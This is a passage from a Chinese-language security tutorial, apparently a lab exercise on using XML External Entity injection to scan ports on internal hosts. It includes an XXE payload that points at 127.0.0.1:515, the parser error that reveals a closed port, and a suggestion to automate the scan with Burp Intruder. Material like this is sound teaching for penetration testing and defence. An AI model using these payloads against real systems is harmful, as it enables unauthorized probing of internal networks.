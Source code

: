 [![img](assets/1667437013913-0dfcdeb1-c94f-4b65-a3c1-9887815a9371.png)](https://picture-1253331270.cos.ap-beijing.myqcloud.com/内网探测结果.png)

### **实验四：HTTP 内网主机端口扫描**

找到了内网的一台主机，想要知道攻击点在哪，我们还需要进行端口扫描，端口扫描的脚本主机探测几乎没有什么变化，只要把ip 地址固定，然后循环遍历端口就行了，当然一般我们端口是通过响应的时间的长短判断该该端口是否开放的，读者可以自行修改一下，当然除了这种方法，我们还能结合 burpsuite 进行端口探测

**比如我们传入：**

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data SYSTEM "http://127.0.0.1:515/" [
<!ELEMENT data (#PCDATA)>   
]> 
<data>4</data> 
```

**返回结果：**

```java
javax.xml.bind.UnmarshalException  
    - with linked exception:
    [Exception [EclipseLink-25004] (Eclipse Persistence Services): org.eclipse.persistence.exceptions.XMLMarshalException
        Exception Description: An error occurred unmarshalling the document  
        Internal Exception: ████████████████████████: Connection refused
```

这样就完成了一次端口探测。如果想更多，我们可以将请求的端口作为 参数 然后利用 bp 的 intruder 来帮我们探测

**如下图所示：**

[![img](assets/1667437014030-64df2dcf-40b9-49f8-9939-2cdd8e9ff504.png)](https://picture-1253331270.cos.ap-beijing.myqcloud.com/bp 的端口探测.png)此处输入图片的描述
